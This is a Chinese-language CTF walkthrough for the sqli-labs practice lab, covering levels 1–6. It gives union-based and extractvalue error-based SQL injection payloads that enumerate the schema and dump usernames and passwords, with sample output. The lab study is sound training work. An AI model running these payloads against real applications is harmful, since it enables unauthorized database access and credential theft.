

## sqli-libs

以下覆盖了基本的解法，如果遇到对应的题目，可以尝试下面解法。

[github](https://github.com/Audi-1/sqli-labs)

[BUUCTF](https://buuoj.cn/challenges#sqli-labs)

## Less-1 (GET - 基于错误的字符串注入)

1. 因为知道这里是有漏洞的，那就先猜字段数，这里传递 3 是正常的，传递 4 报错，因此字段数为 3.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' order by 3 --+
```

2. 接下来使用联合查询，看看能不能回显信息.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' and 1=2 union select 1,"哈哈",2--+
```

> and 1=2 表示让前面的语句失效


3. 接下来可以进一步获取一些数据库信息。比如查找所有的数据库。

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```

回显结果如下

> Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test

1. 查看数据库内的表名称

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

> Your Login name:emails,referers,uagents,users

5. 查看`users`表的列名

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```

> Your Login name:id,username,password,ip,time,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password

6. 查看用户名密码

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```



这道题就解决了,这是基础用法，一般不可能在真正的src渗透中找到这种门户大开的漏洞。


## Less-2 (GET-基于错误的数字型注入)

解法跟 [Less-1](#less-1-get---基于错误的字符串注入)相同，只需要去掉前面的 `'` 符号。

## Less-3 (GET-基于错误的带有括号的单引号字符串注入)

这题既然也是报错，那我们就一步到位使用`Less`最后的pyload

```bash
/Less-3/?id=1 ' AND 1=2 union select 1,(select group_concat(password) from security.users) 
```


根据错误，我们只需再补充一个括号就好了。

```bash
/Less-3/?id=1 ') AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

## Less-4 (基于错误的双引号字符型注入)

第四题看题目猜答案。

```bash
/Less-4/?id=1 ") AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

## Less-5 (双重注入-单引号-字符型)

先试试报错注入。

```bash
/Less-5/?id=1'
```

>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错了，我们直接尝试通过 order by 语句查找列数。

```bash
/Less-5/?id=1' order by 4--+
```

> Unknown column '4' in 'order clause'

得倒列数为3.

尝试使用联合查询看看能不能爆出错误。

```bash
/Less-5/?id=1' UNION select 'a','b','c'--+
```

没有显示出任何错误，我们接下来尝试使用`extractvalue`进行错误注入。

先找一下数据库名称。

```sql
/Less-5/?id=1' 和 extractvalue(0x0a,concat(0x0a,(select database())))--+
```

获取所有的表名称。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```

获取users 表的所有列。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) --+
```

>XPATH syntax error: '~id,username,password,ip,time,US'

获取users表中的所有password。

```sql
/Less-5/?id=1' and extractvalue(1, concat(0x7e,(select group_concat(password) from users),0x7e)) --+
```


## Less-6 (双重注入-双引号-字符型)

这题跟上一题类似，不过是将单引号换成双引号。

```sql
/Less-6/?id=1" and extractvalue(1, concat(0x7e,(select group_concat(password) from users),0x7e)) --+
```

## Less-7 (转储到输出文件-GET)